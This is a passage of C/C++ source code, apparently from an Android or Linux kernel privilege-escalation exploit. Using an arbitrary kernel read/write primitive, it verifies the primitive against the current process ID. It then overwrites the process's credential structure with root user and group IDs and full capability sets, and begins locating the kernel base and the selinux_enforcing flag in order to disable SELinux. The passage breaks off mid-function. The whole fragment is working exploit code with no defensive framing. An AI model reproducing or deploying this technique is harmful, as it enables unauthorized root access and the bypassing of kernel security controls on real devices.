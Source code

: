 ```

    pid_t expectedPid = 0;

    expectedPid = kReadDword(m_pidAddress);

    printf("\t [*] currentPid: %d\n",currentPid);
    printf("\t [*] expectedPid: %d\n",expectedPid);

    if(currentPid != expectedPid ){
        printf("\t[-] r/w failed\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t [*] r/w successfully\n");
    }

}

void PatchCred(){
    printf("[+] Patching current task cred members \n");

    m_cred = (struct cred *)kReadQword(m_credAddress);

    if(!m_cred){
        printf("\t [-] Failed to read cred: %p",m_credAddress);
        exit(EXIT_FAILURE);
    }
    printf("\t cred: %p\n",m_cred);

    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);

}

void DisableSElinux(){
    printf("[+] whether selinux is enabled\n");

    ptrdiff_t nsProxy = kReadQword(m_nsproxyAddress);

    if(!nsProxy){
        printf("\t [-] Failed to read nsproxy: %p",m_nsproxyAddress);
        exit(EXIT_FAILURE);
    }
    ptrdiff_t kernelBase = nsProxy - SYMBOL_OFFSET_init_nsproxy;
    auto selinuxEnforcing = (void *) (kernelBase + SYMBOL_OFFSET_selinux_enforcing);
    printf("\t[*] nsproxy: 0x%lx\n", nsProxy);
    printf("\t[*] Kernel base: 0x%lx\n", kernelBase);
    printf("\t[*] selinux_enforcing: %p\n", selinuxEnforcing);
```